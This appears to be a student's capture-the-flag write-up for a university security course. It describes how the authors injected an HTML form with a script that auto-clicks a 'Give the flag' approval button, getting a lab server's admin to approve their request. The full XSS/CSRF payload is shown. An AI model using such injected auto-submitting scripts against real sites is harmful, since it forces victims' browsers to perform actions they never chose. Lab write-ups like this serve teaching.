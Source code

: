 # **CTF Week #6**

**Objective:** Exploring code injection and the execution context of different web security pages.

**Targeted addresses**: http://ctf-fsi.fe.up.pt:5004

## Challenge

We started this challenge by analyzing the server site given to us in the challenge, we tried to submit a "test justification" and analyzed the pages we were redirected to, we also analyzed the pages used for the "Give the flag" and "Mark request as read" buttons. For this analysis we used the "inspect" function of the web pages, and that's when we came across the following forms: 

``` php
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d8b3c3ef70611b40683eeb4505353efe69b189fc/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
</form>
```

After this, and realizing that this piece of code alone would not be the correct "justification", we again analyzed the possibilities for "improving" the code. We deactivated the site's JavaScript, as it can, and then added the function inside `script` so that, when we executed the code provided, the site would give us the content inside the "Give the flag" button.

**"Justification" Used**

``` php
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/d8b3c3ef70611b40683eeb4505353efe69b189fc/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
<script>
document.getElementById("giveflag").click();
</script>
</form>
```

![screenshot1](screenshots/CTFWEEK6/screenshot1.png)

When we submitted our "justification" we were redirected to the following site:

![screenshot2](screenshots/CTFWEEK6/screenshot2.png)

After that, we reloaded the site using "CTRL + R" and we were given the flag we wanted to find:

![screenshot3](screenshots/CTFWEEK6/screenshot3.png)